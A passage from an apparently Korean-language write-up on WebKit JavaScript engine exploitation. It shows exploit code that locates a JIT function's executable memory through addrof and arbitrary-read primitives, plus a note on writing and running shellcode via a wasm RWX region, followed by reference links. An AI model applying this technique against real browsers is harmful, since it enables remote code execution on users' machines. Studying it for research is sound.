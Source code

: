         var shellcodeFunc = makeJITCompiledFunction();
        
        var shellcodeFuncAddr = addrof(shellcodeFunc);
        printFunc("[+] Shellcode function @ " + shellcodeFuncAddr);
        
        var executableAddr = memory.read_i64(shellcodeFuncAddr, 3);
        printFunc("[+] Executable instance @ " + executableAddr);
        
        var jitCodeAddr = memory.read_i64(executableAddr, 3);
        printFunc("[+] JITCode instance @ " + jitCodeAddr);
        
        var rwxMemAddr = memory.read_i64(jitCodeAddr, 4);
        rwxMemAddr = stripPACifRequired(rwxMemAddr);
        printFunc("[+] " + (rwx === true ? "RWX" : "RX") + " memory @ " + rwxMemAddr);
        
        return [shellcodeFunc, rwxMemAddr];
    }

`read`, `write`를 얻었다면 `wasm`을 이용해 `rwx`영역을 만들고 쉘코드 영역에 적고 실행하면 된다.

## reference

[http://phrack.org/papers/attacking_javascript_engines.html](http://phrack.org/papers/attacking_javascript_engines.html)

[https://webkit.org/blog/3362/](https://webkit.org/blog/3362/)

[https://www.youtube.com/watch?v=5tEdSoZ3mmE&list=PLhixgUqwRTjwufDsT1ntgOY9yjZgg5H_t&index=1](https://www.youtube.com/watch?v=5tEdSoZ3mmE&list=PLhixgUqwRTjwufDsT1ntgOY9yjZgg5H_t&index=1)

[https://github.com/LinusHenze/WebKit-RegEx-Exploit](https://github.com/LinusHenze/WebKit-RegEx-Exploit)